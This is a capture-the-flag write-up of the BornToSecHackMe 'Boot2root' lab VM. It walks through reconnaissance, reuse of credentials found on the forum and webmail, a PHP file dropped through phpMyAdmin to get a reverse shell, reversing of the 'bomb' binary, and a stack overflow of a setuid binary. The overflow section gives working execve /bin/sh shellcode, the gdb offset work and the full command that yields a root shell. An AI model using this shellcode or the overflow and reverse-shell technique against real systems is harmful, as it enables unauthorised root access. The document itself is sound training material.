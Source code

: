 We make network connection in VBox as "Bridge" or "Virtual network"
After it we can scan ourselves with nmap to find Boot2root ip and open ports.

![ip_network](screenshots/ip_network.png)

We found web site under this server.
So we scan 80 and 443 with dirb to find directories. It is output:


![nmap_result](screenshots/nmap_result.png)


Now we have three new points: /fonts (http) and /phpmyadmin, /webmail, /forum (https).
- Fonts are not interesting for us
- phpmyadmin request creditnails. We will not brute it((
- webmail same as above.
- forum works and we can find some useful thigs inside.

On form we see theme by lmezard called "Probleme login?".
It's log and we search for some info. Here we have one string, that seems like password,
if we try it to log in forum, we will succeed. Forum login/pass - lmezard:!q\]Ej?*5K5cy*AJ

After it we can try to Contact and now have lmezard's E-mail adress. If we try to use it to auth /webmail, we will succeed again.
/webmail login/pass - laurie@borntosec.net:!q\]Ej?*5K5cy*AJ

![forum](screenshots/forum.png)

In mailbox we have two messages, one of them includes creds for something called "database".
It is /phpmyadmin login/pass root/Fg-'kKXBj87E:aJ$

![message](screenshots/message.png)

Now is time for Explotation. In phpmyadmin we can make unlimited SQL queries and it means that we could send a payload into a file.
We only should find place where we have access to write files. But we have this place. Look again at dirb output.
Trying several directories and drop php file: In one of directories var/www/forum/templates_c we have enougth rights.

![drop](screenshots/drop.png)

Ok. Now we need reverse shell, we can generate it in base64 with help of 'https://www.revshells.com/'.
And we drop full code with PHP method base64_decode in p.php, start nc, open p.php in browser, improve our shell with python.

![reverse_shell](screenshots/reverse_shell.png)

Now we need to explore system. We look for /home directory, there is dir LOOKATME which contains file password. NICE user login/password lmezard:G!@M6f4Eatau{sF"

![lmezard's_home_dir](screenshots/lmezard's_home_dir.png)

When we logged as lmezard, we found files in his home directory. 'fun' is tar archive, so it will be little more convvenient, to work with it on local machine.
We just copy 'fun' to /forum/templates_c and use chmod 777 (lol). Now we can download file with wget on local machine.

![fun_download](screenshots/fun_download.png)

Then we find a lot pcap files in dir. To deobfuscate it we use sh script. When job is done we use enfile as C-code, compile it and have password, which needed to be cripted with sha-256. hmmm... use sha256 and ssh login/password laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
NICE

![pcap_handle](screenshots/pcap_handle.png)

Now we fnally can connect to machine via ssh. We have README, which says we must defuse the bomb and 'bomb'-ELF exutable.
We haven't passion to start binaries named bomb so let's look to strings. We can see all 'phases', that we need to defuse bomb.
We had hint in README, so easily go to stage two. Let's find all passwords with hint. I thought...
But it doesnt work for 2nd level. OK, we download radare2, and here we go.

![turtle](screenshots/turtle.png)

![SLASH_md5](screenshots/SLASH_md5.png)

2nd level. 
We have two simple functions. First, we read six numbers from stdin. If numbers count not equal six, we exlode bomb.
Simply run debugger and watch at cmp instruction. At the end we have 1 2 6 24 120 720

![l2_read_six_nums](screenshots/bomb/l2_read_six_nums.png)

3d level.
Func want t numbers and letter. OKAY. It is only begin. We see a lot of jumps fahrer from begin. There is switch-case construction.
It depend from first number value. So we try everything from first condition and we're good.
In the HINT our letter is b, so second group of values is ours. 1 b 214. OK

![l3_beginning](screenshots/bomb/l3_beginning.png)
![l3_general](screenshots/bomb/l3_general.png)

4th level.
Owh. We're bad. We have recoursive function here. It will be hard. 
We have internet, so we can install ghydra with 'r2pm --ci r2ghydra'.
Я не смог установить гидру и там пищдец, меня это заебало внатуре ахахах

5th level.
Given setuid binary exploit_me. Lets disassemble it:

    (gdb) set disassembly-flavor intel
    (gdb) disass main
    Dump of assembler code for function main:
    0x080483f4 <+0>:	push   ebp
    0x080483f5 <+1>:	mov    ebp,esp
    0x080483f7 <+3>:	and    esp,0xfffffff0
    0x080483fa <+6>:	sub    esp,0x90
    0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
    0x08048404 <+16>:	jg     0x804840d <main+25>
    0x08048406 <+18>:	mov    eax,0x1
    0x0804840b <+23>:	jmp    0x8048436 <main+66>
    0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
    0x08048410 <+28>:	add    eax,0x4
    0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
    0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
    0x08048419 <+37>:	lea    eax,[esp+0x10]
    0x0804841d <+41>:	mov    DWORD PTR [esp],eax
    0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
    0x08048425 <+49>:	lea    eax,[esp+0x10]
    0x08048429 <+53>:	mov    DWORD PTR [esp],eax
    0x0804842c <+56>:	call   0x8048310 <puts@plt>
    0x08048431 <+61>:	mov    eax,0x0
    0x08048436 <+66>:	leave
    0x08048437 <+67>:	ret
    End of assembler dump.

There is unprotected strcpy from command line arguments into buffer, we can abuse that by writing shellcode inside env variable and overwrite return eip address to point on this variable address.
We can use this shellcode:

    \x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

Assembly of this shellcode will look like this:

    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x17
    int    0x80
    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x2e
    int    0x80
    xor    eax,eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx,esp
    push   eax
    push   ebx
    mov    ecx,esp
    xor    edx,edx
    mov    al,0xb
    int    0x80

First we need to create shellcode env variable:

    zaz@BornToSecHackMe:~$ export SHELLCODE=$(python -c 'print("\x90"*10+"\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')

Next we need to find offset to eip and SHELLCODE env variable address:

    zaz@BornToSecHackMe:~$ gdb ./exploit_me
    (gdb) b *main+49
    Breakpoint 1 at 0x8048425
    (gdb) run aaaabbbbccccdddd
    Starting program: /home/zaz/exploit_me aaaabbbbccccdddd

    Breakpoint 1, 0x08048425 in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffff6d0:
    eip = 0x8048425 in main; saved eip 0xb7e454d3
    Arglist at 0xbffff6c8, args:
    Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
    Saved registers:
    ebp at 0xbffff6c8, eip at 0xbffff6cc
    (gdb) x/50x $sp
    0xbffff630:	0xbffff640	0xbffff8ac	0x00000001	0xb7ec3c49
    0xbffff640:	0x61616161	0x62626262	0x63636363	0x64646464
    0xbffff650:	0xbffff700	0xb7fdd000	0x00000000	0xb7e5ec73
    0xbffff660:	0x08048241	0x00000000	0x00c30000	0x00000001
    0xbffff670:	0xbffff897	0x0000002f	0xbffff6cc	0xb7fd0ff4
    0xbffff680:	0x08048440	0x080496e8	0x00000002	0x080482dd
    0xbffff690:	0xb7fd13e4	0x00000016	0x080496e8	0x08048461
    0xbffff6a0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff6b0:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
    0xbffff6c0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
    0xbffff6d0:	0x00000002	0xbffff764	0xbffff770	0xb7fdc858
    0xbffff6e0:	0x00000000	0xbffff71c	0xbffff770	0x00000000
    0xbffff6f0:	0x0804820c	0xb7fd0ff4
    (gdb) x/20s *((char**)environ)
    0xbffff8bd:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\061ۉذ\027̀1ۉذ.̀1\300Ph//shh/bin\211\343PS\211\341\061Ұ\v̀"

Shellcode address is 0xbffff8bd, offset from buffer to old eip is 140 bytes.
Now we can perform our exploit:

    zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a"*140 + "\xbd\xf8\xff\xbf")')
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
    # whoami
    root
    #

And in thor acc we have turtle and README. README doesn't tell anything usefull, so we look at file. It's text with directions of tutle. In Mother Russia we did this things it school.ON PAPER. And now We just write python script.

![turtle.dir](screenshots/turtle.png)
 

